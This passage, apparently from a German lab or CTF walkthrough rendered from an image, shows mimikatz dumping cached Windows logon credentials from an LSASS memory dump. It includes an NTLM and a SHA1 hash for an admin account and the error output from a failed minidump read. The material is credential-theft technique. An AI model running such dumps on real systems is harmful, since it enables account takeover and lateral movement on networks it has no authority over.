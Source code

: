 ```
         [00000003] Primary
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * NTLM     : b381519f1f1f330c4301c4be59ac0d62
         * SHA1     : c55bfa8fa09760919fdeb0c2f5bb5a022c926903
        tspkg :
        wdigest :
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * Password : (null)
        kerberos :
         * Username : sb_admin
         * Domain   : WIN-07QUV32RIAR
         * Password : (null)
        ssp :
        credman :

...

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : WIN-07QUV32RIAR$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 2/20/2020 10:01:46
SID               : S-1-5-18
        msv :
        tspkg :
        wdigest :
         * Username : WIN-07QUV32RIAR$
         * Domain   : WORKGROUP
         * Password : (null)
        kerberos :
         * Username : win-07quv32riar$
         * Domain   : WORKGROUP
         * Password : (null)
        ssp :
        credman :
```

_Output Abgeschnitten_

Das NTLM Hash des Kontos ist `b381519f1f1f330c4301c4be59ac0d62`. Ich weiß nicht, warum es viele `(null)` gibt.

_Tipp:_ Hier ist der Output, wenn die Entschließung scheitert:

```
> .\mimikatz.exe "sekurlsa::minidump out"

  .#####.   mimikatz 2.2.0 (x64) #18362 Jan  1 1970 00:00:00
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz(commandline) # sekurlsa::minidump out
Switch to MINIDUMP : 'out_swapped'

mimikatz # sekurlsa::LogonPasswords
Opening : 'out_swapped' file for minidump...
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000002)
```
